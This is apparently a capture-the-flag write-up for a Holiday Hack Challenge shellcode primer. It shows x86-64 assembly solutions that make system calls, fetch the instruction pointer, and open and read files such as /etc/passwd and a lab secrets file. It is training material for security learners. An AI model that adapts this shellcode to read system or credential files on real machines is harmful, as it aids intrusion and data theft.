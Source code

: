 # Objective 6: Shellcode Primer
**Location: Jack's Office, Frost Tower, 16<sup>th</sup> Floor, https://tracer.kringlecastle.com/**

**Elf: Ruby Cyster**

**Hints provided by Chimney Scissorsticks after completion of [Holiday Hero](https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Holiday%20Hero.md)**

This objective is a small training in x86 assembly language (basics and performing system calls). The background is to be able to create shellcode payloads to be used in system attacks.

1. Introduction
2. Loops
3. Getting Started
```asm
ret
```
4. Returning a Value
```asm
mov rax,1337  ; return value
ret
```
5. System Calls
```asm
mov rax,60    ; sys_exit
mov rdi,99    ; return code
syscall
```
6. Calling Into the Void
7. Getting RIP
```asm
call place_below_the_nop
nop
place_below_the_nop:
pop rax       ; pop pointer to NOP from stack
ret
```
8. Hello, World!
```asm
call go
db 'Hello World',0
go:
pop rax       ; pop pointer to string from stack
ret
```
9. Hello World!!
```asm
call go
db 'Hello World!',0
go:
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
pop rsi       ; pop pointer to buffer from stack
mov rdx,12    ; 12 bytes
syscall
ret
```
10. Opening a File
```asm
call go
db '/etc/passwd',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
ret
```
11. Reading a File
```asm
call go
db '/var/northpolesecrets.txt',0
go:
mov rax,2     ; sys_open
pop rdi       ; pop pointer to filename from stack
mov rsi,0     ; flags
mov rdx,0     ; mode
syscall
mov rdi,rax   ; file descriptor returned from sys_open (in rax)
mov rax,0     ; sys_read
mov rsi,rsp   ; pointer to buffer on stack
mov rdx,1000; 1000 bytes to read
syscall
mov rdx,rax   ; number of bytes read returned by sys_read (in rax)
mov rax,1     ; sys_write
mov rdi,1     ; file descriptor 1 (stdout)
mov rsi,rsp   ; pointer to buffer on stack
syscall
mov rax,60    ; sys_exit
mov rdi,0     ; return code
syscall
```
The content of the file from step 11 is "Secret to KringleCon success: all of our speakers and organizers, providing the gift of **cyber security knowledge**, free to the community."

**Achievement: Shellcode Primer**

**Hint: Printer Firmware**
**Hint: Hash Extension Attacks**
**Hint: Dropping Files**
